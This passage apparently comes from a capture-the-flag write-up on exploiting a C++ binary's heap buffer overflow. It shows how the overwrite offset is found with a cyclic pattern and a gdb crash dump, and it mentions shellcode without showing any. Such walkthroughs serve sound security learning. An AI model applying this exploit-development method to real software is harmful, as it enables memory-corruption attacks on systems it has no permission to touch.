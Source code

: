 Finding the shellcode is rather easy, we just need to find one that fits with our current architecture.

## finding the buffer offset

Once again, we use our trusted [BO pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) and we get the following:

```gdb
[----------------------------------registers-----------------------------------]
EAX: 0x41366441 ('Ad6A')                                     <-- EAX overwritten
EBX: 0x804a078 ("Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
ECX: 0x67413567 ('g5Ag')
EDX: 0x804a0d4 --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0xbffffb88 --> 0x0
ESP: 0xbffffb60 --> 0x804a008 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:	push   ebp)
EIP: 0x8048682 (<main+142>:	mov    edx,DWORD PTR [eax])
EFLAGS: 0x210287 (CARRY PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048677 <main+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x804867c <main+136>:	mov    eax,DWORD PTR [esp+0x10]
   0x8048680 <main+140>:	mov    eax,DWORD PTR [eax]
=> 0x8048682 <main+142>:	mov    edx,DWORD PTR [eax]
   0x8048684 <main+144>:	mov    eax,DWORD PTR [esp+0x14]
   0x8048688 <main+148>:	mov    DWORD PTR [esp+0x4],eax
   0x804868c <main+152>:	mov    eax,DWORD PTR [esp+0x10]
   0x8048690 <main+156>:	mov    DWORD PTR [esp],eax
[------------------------------------stack-------------------------------------]
0000| 0xbffffb60 --> 0x804a008 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:	push   ebp)
0004| 0xbffffb64 --> 0xbffffd5a ("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0008| 0xbffffb68 --> 0xbffffc30 --> 0xbffffe23 ("TERM=alacritty")
0012| 0xbffffb6c --> 0xb7d79e55 (<__cxa_atexit+53>:	add    esp,0x18)
0016| 0xbffffb70 --> 0x804a078 ("Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0020| 0xbffffb74 --> 0x804a008 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:	push   ebp)
0024| 0xbffffb78 --> 0x804a078 ("Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0028| 0xbffffb7c --> 0x804a008 --> 0x8048848 --> 0x804873a (<_ZN1NplERS_>:	push   ebp)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x08048682 in main ()
```

